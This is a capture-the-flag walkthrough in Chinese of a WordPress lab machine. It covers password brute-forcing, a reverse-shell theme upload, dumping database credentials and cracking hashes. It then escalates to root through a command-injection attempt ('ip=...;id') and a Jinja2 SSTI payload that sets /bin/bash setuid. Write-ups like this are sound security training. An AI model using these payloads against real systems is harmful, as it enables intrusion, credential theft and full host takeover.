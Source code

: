 # TheFirstAvenger

2025.02.26 https://thehackerslabs.com/thefirstavenger/

## Ip

192.168.5.39

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

web 首页无内容，扫描出 http://192.168.5.39/wp1/ 是个 wordpress，先使用 wpscan 进行常规扫描，只发现了一个插件 stop-user-enumeration 1.6.3 这个插件阻止了 wpscan 进行枚举。

将域名 thefirstavenger.thl 添加到 hosts 文件中，发现页面中有用户名 admin 尝试爆破其登陆密码，找到 admin 的登陆密码：

```
Username: admin, Password: spongebob
```

登陆 wp 后台，在 Theme 编辑的地方上传一个 zip 文件包，里面包含 index.php 和 style.css 文件，其中 style.css 的文件内容要类似这样的格式：

```
/*
Theme Name: shah
Theme URI:
Author: shah
Author URI: http://shah.gq
Description: Wordpress Theme
Version: 1.0
*/
```

然后 index.php 就是反弹 shell 的 php 脚本，在 Theme install 后，就可以访问这个页面得到反弹的 shell：

```
curl http://thefirstavenger.thl/wp1/wp-content/themes/8888/index.php
```

得到反弹后，先查看 wp 的数据库配置文件：

```
www-data@TheHackersLabs-Thefirstavenger:/var/www/html/wp1$ cat wp-config.php

define( 'DB_NAME', 'wordpress' );
define( 'DB_USER', 'wordpress' );
define( 'DB_PASSWORD', '9pXYwXSnap`4pqpg~7TcM9bPVXY&~RM9i3nnex%r' );
define( 'DB_HOST', 'localhost' );
```

先进数据库看看有什么，发现另外一个库 top_secret 读取其内容：

```
mysql> select * from avengers;
+----+--------------+------------+----------------------------------+
| id | name         | username   | password                         |
+----+--------------+------------+----------------------------------+
|  1 | Iron Man     | ironman    | cc20f43c8c24dbc0b2539489b113277a |   -> tony123
|  2 | Thor         | thor       | 077b2e2a02ddb89d4d25dd3b37255939 |   -> thorhammer
|  3 | Hulk         | hulk       | ae2498aaff4ba7890d54ab5c91e3ea60 |   -> smash123
|  4 | Black Widow  | blackwidow | 022e549d06ec8ddecb5d510b048f131d |   -> natasha456
|  5 | Hawkeye      | hawkeye    | d74727c034739e29ad1242b643426bc3 |   -> hawkeye
|  6 | Steve Rogers | steve      | 723a44782520fcdfb57daa4eb2af4be5 |   -> thecaptain
+----+--------------+------------+----------------------------------+
```

同时发现系统上有一个用户也叫 steve，尝试破解其哈希 723a44782520fcdfb57daa4eb2af4be5 得到明文密码: thecaptain

su 切换到 steve ，拿到 user flag:

```
steve@TheHackersLabs-Thefirstavenger:~$ cat user.txt
vbh579vExKtPF359H2TikzAWuzNhMVACYeyEsYW7
```

发现以 root 身份运行了 /opt/app/server.py 脚本，ss 发现本地监听了 127.0.0.1:7092 curl 一下看看有什么显示，发现可以提供一个 ip，然后对这个 ip 进行 ping 操作：

```
<input type="text" id="ip" name="ip" value="" required>
curl -G --data-urlencode 'ip=192.168.5.3' http://127.0.0.1:7092
```

这里应该可以执行命令，进行变形：

```
curl -G --data-urlencode 'ip=192.168.5.3;id' http://127.0.0.1:7092
```

执行报错，绕不过去，在看看有没有 SSTI：

```
curl -G --data-urlencode "ip={{7*'7'}}" http://127.0.0.1:7092
```

这时回显的数据上 form 中的 ip 字段变成了 `<input type="text" id="ip" name="ip" value="127.0.0.7777777" required>` 证明存在 SSTI，可能是 Jinja2，进行利用：

```
curl -G --data-urlencode "ip={{ self.__init__.__globals__.__builtins__.__import__('os').popen('chmod +xs /bin/bash').read() }}" http://127.0.0.1:7092
```

这时直接将 /bin/bash 变成了 suid 程序。

```
steve@TheHackersLabs-Thefirstavenger:/tmp$ /bin/bash -p
bash-5.2# cd /root
bash-5.2# ls
root.txt
bash-5.2# cat root.txt
LAZWSPcMckPMzNPtRrVHsDLjw754tT77t9MVuvda
```
